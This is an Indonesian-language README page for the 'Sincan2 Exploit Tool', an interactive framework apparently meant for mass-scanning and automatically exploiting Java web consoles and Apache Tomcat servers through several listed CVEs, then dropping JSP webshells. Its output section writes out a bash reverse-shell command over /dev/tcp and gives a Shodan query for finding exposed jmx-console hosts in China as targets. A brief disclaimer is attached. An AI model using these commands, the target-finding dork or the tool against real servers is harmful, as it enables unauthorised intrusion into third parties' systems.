 
---
layout: default
title: Sincan2 Exploit Tool
---

# 🛠️ Sincan2 Exploit Tool v3.4.1

> **by MHL TEAM**  
> Framework eksploitasi interaktif untuk vektor Java Web Console, Apache Tomcat, dan berbagai CVE modern.

![Screenshot](assets/demo.png)

---

## 🚀 Fitur Utama

- 🎯 Scan satu IP atau massal dari file
- 🧠 Deteksi CVE modern secara otomatis
- 💣 Eksploitasi otomatis shell JSP interaktif
- 📁 Stateful scanning: hasil sukses disimpan & IP dihapus

---

## 🔍 Dukungan CVE

- CVE-2022-0853 — ROP Memory Leak  
- CVE-2023-5379 — Undertow Overflow  
- CVE-2023-1397 — DoS 8MB  
- CVE-2023-6236 — Spoofed JSON  
- CVE-2025-24813 — Tomcat Path Traversal

---

## 📦 Cara Pakai

```bash
bash run_sincan2.sh
```

Ikuti menu interaktif:

- `[1]` Scan satu IP
- `[2]` Scan dari file (`koped.txt`)
- `[3]` Keluar

---

## 🧾 Output Shell

```bash
Target Shell: http://IP/jexws4/jexws4.jsp
Reverse Shell: /bin/bash -i >& /dev/tcp/IPMU/PORT 0>&1
Dork : cari target nya dus : https://www.shodan.io/search?query=%22jmx-console%22+country%3A%22CN%22
```

---

## ⚠️ Disclaimer

Tool ini hanya untuk penggunaan sah dalam penetration testing & edukasi.  
Segala penyalahgunaan adalah tanggung jawab pengguna.

---

## 🤝 Kontribusi

Silakan kontribusi via pull request, tambahkan CVE baru di modul `_exploits.py`, dan sertakan PoC referensi.

---

## 📫 Kontak

📧 Tim MHL: `security@mhl.local`  
🔗 GitHub: [github.com/MHL-Team/sincan2](https://github.com/MHL-Team/sincan2)
